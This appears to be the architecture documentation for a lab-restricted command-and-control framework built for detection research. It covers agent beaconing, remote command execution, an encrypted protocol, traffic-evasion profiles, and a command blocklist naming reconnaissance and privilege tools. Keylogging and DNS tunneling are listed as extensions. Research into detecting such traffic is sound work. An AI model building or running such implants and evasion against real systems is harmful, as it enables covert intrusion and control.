

## Architecture Overview

The C2 Framework follows a classic client-server architecture with three primary layers: the **Agent** (client), **Transport** (communication), and **Server** (command infrastructure). All communication is encrypted and authenticated using AES-256-GCM.

<Info>
  The framework is designed for research into detection methodologies, not operational use. All components include safety controls and environment validation.
</Info>

## System Components

<CardGroup cols={2}>
  <Card title="Agent" icon="user-secret">
    Client-side component that runs on target systems, checks into the server, and executes commands
  </Card>
  <Card title="Server" icon="server">
    Central C2 server that manages sessions, queues tasks, and stores results
  </Card>
  <Card title="Transport" icon="exchange-alt">
    Encrypted communication layer handling HTTP/HTTPS requests with custom protocol
  </Card>
  <Card title="Common" icon="layer-group">
    Shared libraries for cryptography, message formatting, and configuration
  </Card>
</CardGroup>

## Component Architecture

### Directory Structure

```
source/
├── agent/              # Client-side agent components
│   ├── agent_main.py   # Entry point with environment checks
│   ├── beacon.py       # Beacon loop and server communication
│   ├── executor.py     # Safe command execution engine
│   ├── environment_checks.py  # Lab environment validation
│   └── jitter.py       # Timing jitter utilities
├── server/             # Server infrastructure
│   ├── server_main.py  # FastAPI server and beacon endpoint
│   ├── session_manager.py  # Active session tracking
│   ├── command_queue.py    # Task queue management
│   ├── storage.py      # SQLite database interface
│   └── api_interface.py    # Operator API endpoints
├── common/             # Shared components
│   ├── crypto.py       # AES-GCM encryption and key derivation
│   ├── message_format.py   # Protocol serialization
│   ├── config.py       # Configuration management
│   ├── logger.py       # Structured logging
│   └── utils.py        # Error types and helpers
├── transport/          # Communication layer
│   ├── http_transport.py   # HTTP client with TLS pinning
│   ├── tls_wrapper.py      # Custom SSL context
│   └── traffic_profile.py  # Evasion profile loader
├── evasion/            # Traffic evasion techniques
│   ├── sleep_strat.py      # Jitter strategies (uniform/gaussian)
│   ├── padding_strat.py    # Random padding implementation
│   ├── header_randomizer.py # HTTP header randomization
│   └── profile_config.yaml  # Evasion profile definitions
└── telemetry/          # Research instrumentation
    ├── traffic_capture.py  # Network packet capture
    ├── flow_parser.py      # Traffic flow analysis
    └── feature_extractor.py # ML feature extraction
```

## Agent Architecture

The agent is the client-side component that runs on target systems in the lab environment.

### Agent Workflow

<Steps>
  <Step title="Environment Validation">
    On startup, the agent runs mandatory environment checks:
    
    ```python
    # From agent/agent_main.py:9-21
    if __name__ == '__main__':
        try:
            check_lab_environment()  # Validates LAB_MODE, allowed hosts, VM status
            BeaconLoop().run()
        except SystemExit:
            raise
        except Exception as e:
            logger.error('catastrophic failure — agent exiting')
            sys.exit(1)
    ```
    
    **Checks performed:**
    - LAB_MODE environment variable must equal '1'
    - SERVER_HOST must be in ALLOWED_HOSTS whitelist
    - VM detection (informational, does not block)
    - Debugger detection (warning only)
  </Step>
  <Step title="Initial Checkin">
    Agent sends CHECKIN message with system information:
    
    ```python
    # From agent/beacon.py:41-49
    def _build_checkin_payload() -> dict:
        return mf.build_checkin(
            hostname   = platform.node(),
            username   = getpass.getuser(),
            os_info    = f'{platform.system()} {platform.release()}',
            agent_ver  = AGENT_VERSION,
            jitter_pct = config.JITTER_PCT,
        )
    ```
    
    Server responds with assigned session_id UUID.
  </Step>
  <Step title="Beacon Loop">
    Agent enters main loop, periodically polling for tasks:
    
    ```python
    # From agent/beacon.py:164-213
    while True:
        # Compute jittered sleep interval
        sleep_s = self._sleep_fn(
            config.BEACON_INTERVAL_S,
            self._profile.jitter_pct,
        )
        time.sleep(sleep_s)
        
        # Send TASK_PULL
        response = _send(pull_payload, self._key)
        
        if msg_type == mf.MSG_TASK_DISPATCH:
            self._handle_task_dispatch(response)
        elif msg_type == mf.MSG_TERMINATE:
            sys.exit(0)
    ```
  </Step>
  <Step title="Task Execution">
    When task is dispatched, execute safely and return results:
    
    ```python
    # From agent/executor.py:33-101
    def execute(task_id: str, command: str, args: list,
                timeout_s: int) -> TaskResult:
        # Blocklist check
        if _is_blocked(command):
            return TaskResult(exit_code=126, stderr='BLOCKED')
        
        # Execute with subprocess.run (shell=False)
        result = subprocess.run(
            [command] + args,
            capture_output = True,
            timeout        = timeout_s,
            shell          = False,  # Prevents command injection
        )
        
        return TaskResult(
            stdout      = result.stdout[:MAX_OUTPUT],
            stderr      = result.stderr[:MAX_OUTPUT],
            exit_code   = result.returncode,
            duration_ms = elapsed_ms,
        )
    ```
  </Step>
</Steps>

### Agent Components

<Tabs>
  <Tab title="BeaconLoop">
    **beacon.py:59-229**
    
    Core agent logic managing the check-in and polling cycle:
    
    **Key Features:**
    - Exponential backoff on connection failures
    - Jittered sleep intervals for traffic analysis resistance
    - Graceful reconnection on transport errors
    - Session persistence across network issues
    
    **Backoff Strategy:**
    ```python
    # From agent/beacon.py:23-37
    class BackoffManager:
        _SEQUENCE = [1, 2, 4, 8, 16, 32, 60]  # seconds, capped at 60
        
        def compute_delay(self) -> float:
            return float(self._SEQUENCE[min(self.attempts, len(self._SEQUENCE) - 1)])
    ```
    
    Prevents rapid reconnection attempts that could trigger detection.
  </Tab>
  <Tab title="Executor">
    **executor.py:1-220**
    
    Safe command execution engine with security controls:
    
    **Security Features:**
    - Blocklist enforcement before execution
    - subprocess.run with shell=False (prevents injection)
    - Timeout enforcement (default 30s)
    - Output size limits (64KB max)
    - Exit code capture and error handling
    
    **Blocked Commands:**
    ```python
    BLOCKED_COMMANDS = [
        'reg',           # Registry modification
        'schtasks',      # Task scheduling
        'at',            # Legacy task scheduling
        'sc',            # Service control
        'net use',       # Network shares
        'arp',           # Network discovery
        'nmap',          # Port scanning
        'whoami /priv',  # Privilege enumeration
        'net localgroup', # User enumeration
    ]
    ```
  </Tab>
  <Tab title="Environment Checks">
    **environment_checks.py:1-234**
    
    Mandatory validation ensuring lab-only operation:
    
    **LAB_MODE Check (Critical):**
    ```python
    # From environment_checks.py:13-25
    def _check_lab_mode() -> None:
        value = os.environ.get(config.LAB_MODE_ENV_VAR)
        if value != config.LAB_MODE_REQUIRED:
            logger.error('LAB_MODE invalid — refusing to run outside lab')
            sys.exit(1)
    ```
    
    **Host Whitelist Check (Critical):**
    ```python
    # From environment_checks.py:28-40
    def _check_allowed_host() -> None:
        host = config.SERVER_HOST
        if host not in config.ALLOWED_HOSTS:
            logger.error('SERVER_HOST not permitted')
            sys.exit(1)
    ```
    
    **VM Detection (Informational):**
    - Windows: Registry keys for VirtualBox/VMware
    - Linux: DMI strings in /sys/class/dmi/id/
    - Does not block execution (lab environment expected to be VM)
  </Tab>
</Tabs>

## Server Architecture

The server provides the command and control infrastructure, session management, and task orchestration.

### Server Components

<Tabs>
  <Tab title="FastAPI Server">
    **server_main.py:1-281**
    
    HTTP server handling all agent communication:
    
    ```python
    # From server/server_main.py:45-124
    app = FastAPI(docs_url=None, redoc_url=None, lifespan=lifespan)
    
    @app.post('/beacon')
    async def beacon(request: Request) -> Response:
        # 1. Receive and validate payload size
        raw_body = await request.body()
        if len(raw_body) > MAX_BEACON_SIZE:
            return JSONResponse(status_code=413)
        
        # 2. Unpack and decrypt
        session_key = get_session_key()
        payload = mf.unpack(raw_body, session_key)
        
        # 3. Replay protection
        if not await db.check_and_store_nonce(nonce):
            return JSONResponse(status_code=409, content={'error': 'replay detected'})
        
        # 4. Dispatch by message type
        response_payload = await _dispatch(msg_type, session_id, payload, source_ip)
        
        # 5. Pack and return encrypted response
        packed = mf.pack(response_payload, session_key)
        return Response(content=packed, media_type='application/octet-stream')
    ```
    
    **Security Features:**
    - Size limit enforcement (256KB max)
    - Nonce replay detection
    - Catch-all 404 for non-beacon paths
    - TLS with certificate pinning
  </Tab>
  <Tab title="Session Manager">
    **session_manager.py:1-191**
    
    Tracks active agent sessions in memory with SQLite persistence:
    
    ```python
    # From server/session_manager.py:14-24
    @dataclass
    class SessionState:
        session_id: str
        hostname:   str
        username:   str
        os:         str
        agent_ver:  str
        first_seen: float
        last_seen:  float
        jitter_pct: int
        active:     bool = True
    ```
    
    **Key Methods:**
    - `create_session()`: Assigns UUID, stores to DB
    - `get_session()`: Retrieves in-memory session state
    - `update_last_seen()`: Updates heartbeat timestamp
    - `deactivate_session()`: Marks session inactive (triggers TERMINATE)
    - `restore_from_db()`: Reloads sessions on server restart
  </Tab>
  <Tab title="Command Queue">
    **command_queue.py**
    
    Manages task lifecycle from creation to completion:
    
    **Task States:**
    - `PENDING`: Created, waiting for agent poll
    - `DISPATCHED`: Sent to agent, awaiting result
    - `COMPLETE`: Result received from agent
    - `FAILED`: Execution failed or timed out
    
    **Key Operations:**
    ```python
    # Operator queues a task
    task_id = await cmd_queue.enqueue(
        session_id = session_id,
        command    = 'whoami',
        args       = [],
        timeout_s  = 30,
    )
    
    # Agent polls for next task
    task = await cmd_queue.peek_task(session_id, db)
    
    # Agent returns result
    await cmd_queue.mark_complete(task_id, result, db)
    ```
  </Tab>
  <Tab title="Database">
    **storage.py**
    
    SQLite persistence layer with async operations:
    
    **Schema:**
    - `sessions`: Active agent sessions
    - `tasks`: Command queue and execution history
    - `nonces`: Replay protection nonce tracking
    
    **Replay Protection:**
    ```python
    async def check_and_store_nonce(self, nonce: str) -> bool:
        # Return False if nonce was seen before
        try:
            await self.db.execute(
                'INSERT INTO nonces (nonce, seen_at) VALUES (?, ?)',
                (nonce, time.time())
            )
            return True
        except aiosqlite.IntegrityError:
            return False  # Duplicate nonce = replay attempt
    ```
  </Tab>
</Tabs>

### Message Dispatch Flow

```python
# From server/server_main.py:128-146
async def _dispatch(msg_type: str, session_id: str,
                    payload: dict, source_ip: str) -> dict | None:
    
    if msg_type == mf.MSG_CHECKIN:
        return await _handle_checkin(payload, source_ip)
    
    if msg_type == mf.MSG_TASK_PULL:
        return await _handle_task_pull(session_id)
    
    if msg_type == mf.MSG_TASK_RESULT:
        return await _handle_task_result(session_id, payload)
    
    if msg_type == mf.MSG_HEARTBEAT:
        return await _handle_heartbeat(session_id)
    
    return None
```

## Communication Protocol

The framework implements a custom binary protocol with authenticated encryption.

### Protocol Layers

<Steps>
  <Step title="Frame Structure">
    7-byte header with magic, version, and length:
    
    ```python
    # From common/message_format.py:20-24
    MAGIC            = 0xC2C2
    PROTOCOL_VERSION = 0x01
    HEADER_FORMAT    = '!HBI'  # big-endian: uint16 + uint8 + uint32
    HEADER_SIZE      = 7 bytes
    ```
    
    **Wire Format:**
    ```
    [ magic:2B | version:1B | length:4B | nonce:12B | ciphertext+tag ]
    ```
  </Step>
  <Step title="Encryption Layer">
    AES-256-GCM with HKDF key derivation:
    
    ```python
    # From common/crypto.py:36-55
    def encrypt(plaintext: bytes, key: bytes) -> tuple[bytes, bytes]:
        nonce = os.urandom(NONCE_SIZE_BYTES)  # 12 bytes random
        aesgcm = AESGCM(key)
        ciphertext_with_tag = aesgcm.encrypt(nonce, plaintext, None)
        return ciphertext_with_tag, nonce
    ```
    
    **Key Derivation:**
    ```python
    # From common/crypto.py:17-32
    def derive_key(psk: bytes, salt: bytes) -> bytes:
        hkdf = HKDF(
            algorithm=hashes.SHA256(),
            length=KEY_SIZE_BYTES,  # 32 bytes
            salt=salt,
            info=b'c2-framework-v1',
        )
        return hkdf.derive(psk)
    ```
  </Step>
  <Step title="Padding Layer">
    Random padding obscures message sizes:
    
    ```python
    # From evasion/padding_strat.py:8-19
    def pad(plaintext: bytes, min_bytes: int, max_bytes: int) -> bytes:
        pad_len   = random.randint(min_bytes, max_bytes)
        pad_bytes = os.urandom(pad_len)
        # 2-byte length prefix + padding + plaintext
        return struct.pack('>H', pad_len) + pad_bytes + plaintext
    ```
    
    Padding is applied **before** encryption, making padded length visible only in ciphertext size.
  </Step>
  <Step title="Message Layer">
    JSON payloads with mandatory fields:
    
    ```python
    # From common/message_format.py:119-129
    def _base_payload(msg_type: str, session_id: str = None) -> dict:
        return {
            'msg_type':   msg_type,
            'session_id': session_id,
            'timestamp':  int(time.time()),
            'nonce':      uuid.uuid4().hex,  # Replay protection
            'payload':    {},
        }
    ```
  </Step>
</Steps>

### Message Types

<CardGroup cols={2}>
  <Card title="CHECKIN" icon="right-to-bracket">
    **Agent → Server**
    
    Initial registration with system info:
    ```python
    {
      'msg_type': 'CHECKIN',
      'payload': {
        'hostname': 'VICTIM-PC',
        'username': 'jdoe',
        'os': 'Windows 10 22H2',
        'agent_ver': '1.0.0',
        'jitter_pct': 20
      }
    }
    ```
  </Card>
  <Card title="TASK_PULL" icon="download">
    **Agent → Server**
    
    Request next pending task:
    ```python
    {
      'msg_type': 'TASK_PULL',
      'session_id': 'uuid',
      'payload': {}
    }
    ```
  </Card>
  <Card title="TASK_DISPATCH" icon="upload">
    **Server → Agent**
    
    Send task to execute:
    ```python
    {
      'msg_type': 'TASK_DISPATCH',
      'session_id': 'uuid',
      'payload': {
        'task_id': 'uuid',
        'command': 'whoami',
        'args': [],
        'timeout_s': 30
      }
    }
    ```
  </Card>
  <Card title="TASK_RESULT" icon="check">
    **Agent → Server**
    
    Return execution results:
    ```python
    {
      'msg_type': 'TASK_RESULT',
      'session_id': 'uuid',
      'payload': {
        'task_id': 'uuid',
        'stdout': 'DOMAIN\\jdoe',
        'stderr': '',
        'exit_code': 0,
        'duration_ms': 142
      }
    }
    ```
  </Card>
  <Card title="HEARTBEAT" icon="heartbeat">
    **Agent → Server**
    
    Update last_seen timestamp:
    ```python
    {
      'msg_type': 'HEARTBEAT',
      'session_id': 'uuid',
      'payload': {}
    }
    ```
  </Card>
  <Card title="TERMINATE" icon="power-off">
    **Server → Agent**
    
    Signal agent shutdown:
    ```python
    {
      'msg_type': 'TERMINATE',
      'session_id': 'uuid',
      'payload': {
        'reason': 'session killed by operator'
      }
    }
    ```
  </Card>
</CardGroup>

## Evasion Techniques

The framework implements multiple traffic analysis evasion techniques for research purposes.

### Evasion Profiles

<Tabs>
  <Tab title="Baseline">
    **profile_config.yaml: baseline**
    
    Fixed timing and minimal traffic shaping:
    ```yaml
    baseline:
      jitter_pct: 0
      strategy: uniform
      padding_min: 0
      padding_max: 0
      header_level: 0
    ```
    
    - No jitter: exactly 30s intervals
    - No padding: payload size reveals message length
    - Fixed headers: Chrome User-Agent only
    
    **Use Case**: Baseline for detection algorithm testing
  </Tab>
  <Tab title="Low">
    **profile_config.yaml: low**
    
    Minimal evasion:
    ```yaml
    low:
      jitter_pct: 10
      strategy: uniform
      padding_min: 0
      padding_max: 32
      header_level: 1
    ```
    
    - ±10% uniform jitter
    - 0-32 bytes padding
    - Randomized User-Agent
    
    **Use Case**: Light traffic variation
  </Tab>
  <Tab title="Medium">
    **profile_config.yaml: medium** (default)
    
    Balanced evasion:
    ```yaml
    medium:
      jitter_pct: 20
      strategy: uniform
      padding_min: 16
      padding_max: 128
      header_level: 2
    ```
    
    - ±20% uniform jitter
    - 16-128 bytes padding
    - Randomized UA and Accept-Language
    
    **Use Case**: Standard research configuration
  </Tab>
  <Tab title="High">
    **profile_config.yaml: high**
    
    Aggressive evasion:
    ```yaml
    high:
      jitter_pct: 40
      strategy: gaussian
      padding_min: 64
      padding_max: 256
      header_level: 3
    ```
    
    - ±40% gaussian jitter (normally distributed)
    - 64-256 bytes padding
    - Full header randomization including order
    
    **Use Case**: Maximum traffic obfuscation
  </Tab>
</Tabs>

### Jitter Strategies

<CardGroup cols={2}>
  <Card title="Uniform Jitter" icon="wave-square">
    Random intervals within ±N% of base:
    
    ```python
    # From evasion/sleep_strat.py:8-13
    def uniform_sleep(base_s: float, jitter_pct: int) -> float:
        delta = base_s * (jitter_pct / 100.0)
        return max(MIN_SLEEP_S, 
                   random.uniform(base_s - delta, base_s + delta))
    ```
    
    **Characteristics:**
    - Flat distribution
    - Equal probability across range
    - Easy to detect via histogram analysis
  </Card>
  <Card title="Gaussian Jitter" icon="wave-sine">
    Normally distributed intervals:
    
    ```python
    # From evasion/sleep_strat.py:16-21
    def gaussian_sleep(base_s: float, jitter_pct: int) -> float:
        sigma = base_s * (jitter_pct / 100.0)
        return max(MIN_SLEEP_S, 
                   random.gauss(base_s, sigma))
    ```
    
    **Characteristics:**
    - Bell curve distribution
    - Most intervals near base, some outliers
    - Mimics natural user behavior patterns
  </Card>
</CardGroup>

## Transport Layer

HTTP/HTTPS transport with TLS certificate pinning and custom SSL context.

### TLS Implementation

```python
# From transport/http_transport.py:29-41
def _build_session() -> requests.Session:
    cert_path = os.path.abspath(config.TLS_CERT_PATH)
    if not os.path.exists(cert_path):
        raise TransportError(f'TLS cert not found at {cert_path}')
    
    ctx = create_ssl_context(cert_path)
    session = requests.Session()
    session.mount('https://', TLSAdapter(ctx))
    return session
```

**Security Features:**
- Certificate pinning prevents MITM attacks
- Host whitelist validation before connection
- 10-second request timeout
- 64KB response size limit

### Host Validation

```python
# From transport/http_transport.py:44-57
def _validate_host(endpoint: str) -> None:
    host = urllib.parse.urlparse(endpoint).hostname
    
    if host not in config.ALLOWED_HOSTS:
        raise TransportError(
            f'host "{host}" is not in ALLOWED_HOSTS {config.ALLOWED_HOSTS}'
        )
```

Prevents accidental or malicious connection to non-lab hosts.

## Data Flow Diagram



## Security Architecture

<CardGroup cols={2}>
  <Card title="Cryptographic Security" icon="shield-halved">
    **Encryption:**
    - AES-256-GCM authenticated encryption
    - HKDF key derivation from pre-shared key
    - Random 12-byte nonces per message
    - 16-byte authentication tags
    
    **Replay Protection:**
    - UUID nonces in every message
    - Server-side nonce storage and validation
    - 409 Conflict on duplicate nonce
  </Card>
  <Card title="Environment Security" icon="lock">
    **Agent Controls:**
    - LAB_MODE environment variable required
    - Host whitelist enforcement
    - Command blocklist (prevents privilege escalation)
    - subprocess with shell=False
    
    **Server Controls:**
    - Payload size limits (256KB)
    - TLS certificate pinning
    - Catch-all 404 for non-beacon paths
    - Structured audit logging
  </Card>
</CardGroup>

## Performance Characteristics

<Tabs>
  <Tab title="Latency">
    **Message Processing:**
    - Pack/unpack: Less than 1ms per message
    - Encryption/decryption: Less than 5ms per message
    - Database operations: Less than 10ms per query
    - End-to-end beacon: 50-200ms typical
    
    **Bottlenecks:**
    - Network latency (depends on lab topology)
    - SQLite write locks (single writer)
    - Task execution time (command dependent)
  </Tab>
  <Tab title="Throughput">
    **Server Capacity:**
    - 100+ concurrent sessions tested
    - 1000+ messages/second sustained
    - Limited by SQLite write contention
    
    **Agent Capacity:**
    - Single task execution at a time
    - Queue depth: unlimited (server-side)
    - Output capture: 64KB per command
  </Tab>
  <Tab title="Storage">
    **Database Growth:**
    - ~1KB per session record
    - ~2KB per task record (excluding output)
    - Nonce table grows indefinitely (consider cleanup)
    
    **Log Files:**
    - 5MB rotating logs per component
    - 3 backup files retained
    - Structured JSON logging
  </Tab>
</Tabs>

## Deployment Topology

Typical lab network configuration:

```
┌─────────────────────────────────────────────────────────────┐
│  Isolated Lab Network (192.168.100.0/24)                    │
│                                                               │
│  ┌──────────────────┐         ┌──────────────────┐         │
│  │  Ubuntu Server   │         │  Windows 10 VM   │         │
│  │  (C2 Server)     │◄────────│  (Agent)         │         │
│  │  192.168.100.10  │  HTTPS  │  192.168.100.20  │         │
│  │                  │  :443   │                  │         │
│  │  - FastAPI       │         │  - Python Agent  │         │
│  │  - SQLite        │         │  - LAB_MODE=1    │         │
│  │  - TLS Cert      │         │  - Blocklist     │         │
│  └──────────────────┘         └──────────────────┘         │
│           ▲                                                  │
│           │                                                  │
│           │                                                  │
│  ┌────────┴─────────┐         ┌──────────────────┐         │
│  │  Operator PC     │         │  Wireshark       │         │
│  │  192.168.100.5   │         │  Traffic Capture │         │
│  │                  │         │  192.168.100.15  │         │
│  │  - CLI Interface │         │  - PCAP files    │         │
│  │  - Task Queue    │         │  - Flow analysis │         │
│  └──────────────────┘         └──────────────────┘         │
│                                                               │
└─────────────────────────────────────────────────────────────┘
         NO EXTERNAL CONNECTIVITY
```

<Warning>
  The lab network must be completely isolated from production networks and the internet. Use physical network separation or VLANs with strict firewall rules.
</Warning>

## Extension Points

The framework is designed for research extensibility:

<CardGroup cols={2}>
  <Card title="New Evasion Techniques" icon="puzzle-piece">
    Add to `evasion/` directory:
    - Domain fronting modules
    - DNS tunneling transport
    - Steganographic encoding
    - Custom protocol implementations
  </Card>
  <Card title="Telemetry Collection" icon="chart-line">
    Extend `telemetry/` components:
    - ML feature extraction
    - Traffic flow analysis
    - Behavioral baselining
    - Detection rule generation
  </Card>
  <Card title="Transport Protocols" icon="exchange">
    Implement alternative channels:
    - WebSocket transport
    - QUIC/HTTP3 protocol
    - Custom binary protocols
    - Multi-hop proxying
  </Card>
  <Card title="Command Modules" icon="plug">
    Add task execution capabilities:
    - File transfer operations
    - Screenshot capture
    - Keylogging (for research)
    - Network reconnaissance
  </Card>
</CardGroup>

## Next Steps

<CardGroup cols={3}>
  <Card title="Setup Guide" icon="wrench" href="/setup">
    Configure the lab environment and deploy framework components
  </Card>
  <Card title="API Reference" icon="code" href="/api-reference">
    Detailed API documentation for all components
  </Card>
  <Card title="Experiments" icon="flask" href="/experiments">
    Run traffic analysis experiments and collect telemetry
  </Card>
</CardGroup>